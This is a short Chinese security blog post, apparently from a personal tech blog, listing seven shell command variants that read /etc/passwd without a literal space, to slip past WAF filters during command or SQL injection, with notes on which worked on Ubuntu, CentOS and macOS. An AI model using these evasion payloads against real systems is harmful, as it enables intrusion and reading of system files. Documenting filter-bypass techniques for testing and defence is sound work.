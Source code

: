 # 命令执行绕过空格的姿势

[2020-03-27](/2020/03/27/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E7%9A%84%E5%A7%BF%E5%8A%BF/)

在一些漏洞利用场景（如命令执行，SQL注入），或者因为waf等原因，导致无法使用空格时，可以试试如下命令：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"></span><br><span class="line">IFS=,;`cat&lt;&lt;&lt;cat,/etc/passwd`</span><br><span class="line">cat$IFS/etc/passwd</span><br><span class="line">cat${IFS}/etc/passwd</span><br><span class="line">cat&lt;/etc/passwd</span><br><span class="line">{cat,/etc/passwd}</span><br><span class="line">X=$'cat\x20/etc/passwd'&amp;&amp;$X</span><br></pre></td></tr></tbody></table>

经过测试，除最后一条在mac osx下执行失败，这些命令在ubuntu 19.10和centos7下均执行成功。在mac osx系统下系统会将cat\\x20/etc/passwd当成一个可执行文件，会提示No such file or directory。